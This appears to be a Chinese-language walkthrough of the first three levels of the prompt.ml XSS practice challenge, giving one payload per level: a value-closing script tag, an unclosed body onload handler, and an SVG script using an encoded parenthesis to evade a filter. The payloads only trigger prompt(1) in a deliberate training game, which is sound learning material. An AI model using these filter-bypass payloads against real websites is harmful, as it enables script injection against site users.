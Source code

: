 http://prompt.ml/0  
注意在这里使用的过关方法是prompt(1)

# 0x0
直接闭合value：
```
"><script type=text/javascript>prompt(1)</script>
```

# 0x1
服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行：
```
<body onload="prompt(1)"
```

# 0x2
服务器端将“=”和“(“过滤，一开始查了一圈也没找到绕过等号的方法，后来借鉴别人的方法，发现“使用SVG标签，会提前将将XML实体解析再加入标签”，所以构造：
```
<svg><script>prompt&#x28;1)</script>
```

